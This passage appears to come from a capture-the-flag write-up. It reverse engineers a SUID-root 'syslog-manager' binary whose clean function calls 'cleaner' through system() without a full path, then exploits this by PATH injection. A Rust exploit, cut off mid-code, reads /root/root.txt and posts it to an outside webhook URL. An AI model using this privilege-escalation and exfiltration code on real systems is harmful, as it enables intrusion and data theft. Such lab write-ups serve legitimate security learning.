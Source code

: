 ### Reverse Engineering

If you try and google for syslog-manager, it doesn't seem to be a general binary used by others. So that indicate to us that it might be a custom binary? We tried to use the command that it list and we found out that the clean function keep failing for some unknown reason. The binary is interesting since it have SUID of root and could be a target for abuse, since everyone is able to execute it. We then decided to pull it down from the box and crack it open with [Ghidra](https://github.com/NationalSecurityAgency/ghidra/releases/) which is a reverse engineering tool. We converted the binary to base64 and served it on the webpage to be able to download it.

Below is a snippet of the function clean:
```c
undefined8 cmd_clean(void)

{
  int iVar1;
  undefined8 uVar2;
  char local_1018 [4108];
  int local_c;
  
  iVar1 = snprintf(local_1018,0x1000,"cleaner %s 2>/dev/null","/var/log/syslog.log");
  if (iVar1 < 0x1000) {
    local_c = system(local_1018);
    if (local_c == 0) {
      uVar2 = 0;
    }
    else {
      fwrite("Error: cleaning failed\n",1,0x17,stderr);
      uVar2 = 1;
    }
  }
  else {
    fwrite("Command too long\n",1,0x11,stderr);
    uVar2 = 1;
  }
  return uVar2;
}
```

The function *clean* calls a binary called `cleaner`, but when you search the box for this binary nothing comes up, so this might be an interesting clue. So we decided to see if we could exploit this function.

c3lphie was kind enough to write a blazing fast rust binary that we could use to exploit syslog-manager with a Path Injection vulnerability:

```rust
use std::process::Command;

use serde_json::json;


#[tokio::main]
async fn main() -> anyhow::Result<()>{

    let output = Command::new("sh")
        .arg("-c")
        .arg("cat /root/root.txt")
        .output()
        .expect("whoami is not available");
    let mut result = String::from_utf8(output.stdout).unwrap();
    result.pop();

    let client = reqwest::Client::new();
    let res = client.post("https://webhook.site/a473b4bc-9d81-4d64-94e0-e4ec1738db33")
        .json(&json!({"whoami": result}))
```